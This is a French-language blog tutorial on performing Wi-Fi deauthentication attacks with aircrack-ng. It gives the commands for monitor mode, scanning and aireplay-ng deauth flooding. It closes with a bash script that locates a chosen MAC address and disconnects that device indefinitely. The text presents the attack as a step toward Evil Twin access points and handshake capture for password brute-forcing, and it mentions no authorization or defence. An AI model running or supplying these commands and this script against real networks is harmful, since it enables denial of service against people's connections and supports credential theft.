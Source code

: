 ```yaml
---
weight: 4
title: "Attaque de désauthentification"
date: 2021-01-01T00:00:00+00:00
draft: false
author: "Nyxott"
description: "Effectuer une attaque de désauthentification Wi-Fi"
resources:
- name: "featured-image"
  src: "featured-image.png"

tags: ["Wi-Fi"]
categories: ["Wi-Fi"]

lightgallery: true
---
```


Cet article explique comment effectuer une attaque de désauthentification Wi-Fi.

<!--more-->

## Introduction

Une attaque de désauthentification Wi-Fi est une forme de déni de service ciblant la communication entre un client et un point d'accès Wi-Fi.

Cette attaque consiste à ce qu'un attaquant envoie des demandes de désauthentification à un accès Wi-Fi en se faisant passer pour un de ces clients. Cela a pour effet de déconnecter le client en question du point d'accès Wi-Fi.

Elle est, la plupart du temps, utilisé conjointement avec d'autres attaques.

Ainsi, un attaquant peut mettre en place un point d'accès Wi-Fi malveillant dans le cadre d'une attaque `Evil Twin`. Dans ce cas, l'attaquant pourra utiliser une attaque de désauthentification afin de déconnecter le client de son point d'accès Wi-Fi légitime pour le reconnecter sur le point d'accès malveillant.

Dans un autre contexte, un attaquant tentant de découvrir le mot de passe d'un point d'accès Wi-Fi peut utiliser cette méthode afin de déconnecter un client et récupérer le 4-Way Handshake pour ensuite effectuer une attaque brute-force.

Enfin, cette attaque de désauthentification peut tout simplement permettre de connaitre le SSID d'un point d'accès Wi-Fi caché.

## Installation des outils

On installe les outils nécessaires :
```shell
sudo apt install aircrack-ng
```

## Attaque

### Mode moniteur

Tout d'abord, il faut passer la carte Wi-Fi en mode moniteur afin de pouvoir écouter le trafic Wi-Fi environnant :
```shell
sudo airmon-ng start <INTERFACE>
```

{{< admonition >}}
Il est possible de trouver l'interface Wi-Fi via la commande suivante :
```shell
sudo iwconfig
```
{{< /admonition >}}

### Capture du trafic

Une fois la carte activée en mode moniteur, il est possible d'écouter le trafic Wi-Fi environnant grâce à la commande suivante :
```shell
sudo airodump-ng <INTERFACE>mon
```

Cette commande permet de récupérer énormément d'informations telles que, notamment :
* `BSSID` : L'adresse MAC du point d'accès ;
* `PWR` : La puissance du signal reçue. Plus le nombre est proche de 100, plus le signal est fort ; 
* `Data` : Le nombre de paquets de données capturés. Plus le nombre est élevé plus il y a d'activité ;
* `CH` : Le canal sur lequel la communication est effectuée ;
* `ENC` : L'algorithme de chiffrement utilisé ;
* `ESSID` : Le nom du point d'accès ;

De plus, elle permet également de récupérer l'adresse MAC des clients (STATION) connectés à chaque point d'accès détecté.

{{< admonition tip >}}
A tout moment, il est possible de couper l'écoute via un `ctrl + c`.
{{< /admonition >}}

### Alignement du canal

Une fois le point d'accès cible repéré, il est indispensable d'aligner la carte Wi-Fi sur le même canal que celui-ci afin de pouvoir correctement communiquer.

Cela est possible via la commande suivante :
```shell
sudo airodump-ng -d <BSSID> -c <CH> wlp2s0mon
```

{{< admonition tip >}}
Il est possible d'effectuer immédiatement un `ctrl + c` puisque l'aligmenent sur le bon canal est instantané.
{{< /admonition >}}

### Désauthentification

Une fois toutes ces étapes effectuées, il est désormais possible d'exécuter l'attaque via la commande suivante :
```shell
sudo aireplay-ng -0 0 -a <BSSID> -c <STATION> <INTERFACE>mon
```

{{< admonition >}}
Le `0` (à ne pas confondre avec le `-0`) permet d'envoyer des trames de désauthentification indéfiniment.
Il est possible de modifier ce nombre par `10`, par exemple, si l'on souhaite envoyer uniquement dix trames de désauthentification.
{{< /admonition >}}

{{< admonition tip >}}
Si l'option `-c <STATION>` n'est pas précisée, l'ensemble des clients connecté au point d'accès seront désauthentifiés.
{{< /admonition >}}

{{< admonition tip >}}
Lorsque des trames de désauthentification sont envoyées indéfiniment, il est possible d'effectuer un `ctrl + c` pour y mettre fin.
{{< /admonition >}}

### Mode station

Une fois l'attaque effectué, il est possible de désactiver le mode moniteur de la carte Wi-Fi via la commande suivante :
```shell
sudo airmon-ng stop <INTERFACE>mon
```

## Attaque automatisée

Répéter toutes ces commandes peut être contraignant notamment si l'on connaît déjà l'adresse MAC de la cible.

Partant de ce constat, la création d'un script automatisant cette attaque peut s'avérer utile.

```bash
#!/bin/bash

TARGET="<TARGET_MAC_ADDRESS>"

echo -e "\e[97mActivating monitor mode...\e[0m"
sudo airmon-ng start wlp2s0 > /dev/null 2>&1
echo -e "\e[1;92mOK\e[0m\n"

echo -e "\e[97mCleanning old file...\e[0m"
sudo rm airodump-01.csv > /dev/null 2>&1
echo -e "\e[1;92mOK\e[0m\n"

echo -e "\e[97mScanning access points...\e[0m"
sudo airodump-ng -w airodump --output-format csv wlp2s0mon > /dev/null 2>&1 &
sleep 20
sudo killall -15 airodump-ng > /dev/null 2>&1
echo -e "\e[1;92mOK\e[0m\n"

echo -e "\e[97mSearching target...\e[0m"
AP_TARGET=`grep $TARGET airodump-01.csv | cut -d "," -f 6 | xargs` > /dev/null 2>&1

if [ $AP_TARGET ]; then
	echo -e "\e[1;92mOK\e[0m\n"

	echo -e "\e[97mSearching additional information...\e[0m"
	TEMP=`grep $AP_TARGET airodump-01.csv | head -n 1`
	CHANNEL_TARGET=`echo $TEMP | cut -d "," -f 4 | xargs` > /dev/null 2>&1
	NAME_AP_TARGET=`echo $TEMP | cut -d "," -f 14 | xargs` > /dev/null 2>&1
	sudo airodump-ng -d $AP_TARGET -c $CHANNEL_TARGET wlp2s0mon > /dev/null 2>&1 &
	sleep 1
	sudo killall -15 airodump-ng > /dev/null 2>&1
	echo -e "\e[1;92mOK\e[0m\n"

	echo -e "\e[1;97m$TARGET\e[0m\e[97m detected on \e[0m\e[1;97m$NAME_AP_TARGET\e[0m\e[97m (\e[0m\e[1;97m$AP_TARGET\e[0m\e[97m)\e[0m\n"
	
	if [ "$1" = "attack" ]; then
		echo -e "\e[97mStarting attack...\e[0m"
		sudo aireplay-ng -0 0 -a $AP_TARGET -c $TARGET wlp2s0mon
		echo -e "\e[1;92mOK\e[0m\n"
	fi
else
	echo -e "\e[1;91mNO\e[0m\n"
fi

echo -e "\e[97mDeactivating monitor mode...\e[0m"
sudo airmon-ng stop wlp2s0mon > /dev/null 2>&1
echo -e "\e[1;92mOK\e[0m"

```

Il suffit d'indiquer l'adresse MAC de la cible et le script se chargera automatiquement de détecter si la cible est connectée à un point d'accès Wi-Fi. Si tel est le cas, le script enverra indéfiniment des trames de désauthentification au point d'accès Wi-Fi en question afin de désauthentifier la cible.

{{< admonition tip >}}
`./<SCRIPT_NAME>` : Permet de savoir si la cible est connectée ou non. Si elle l'est, le script indiquera sur quel point d'accès elle se trouve sans effectuer d'attaque.

`./<SCRIPT_NAME> attack` : Permet de savoir si la cible est connectée ou non. Si elle l'est, le script indiquera sur quel point d'accès elle se trouve et effectuera l'attaque.
{{< /admonition >}}
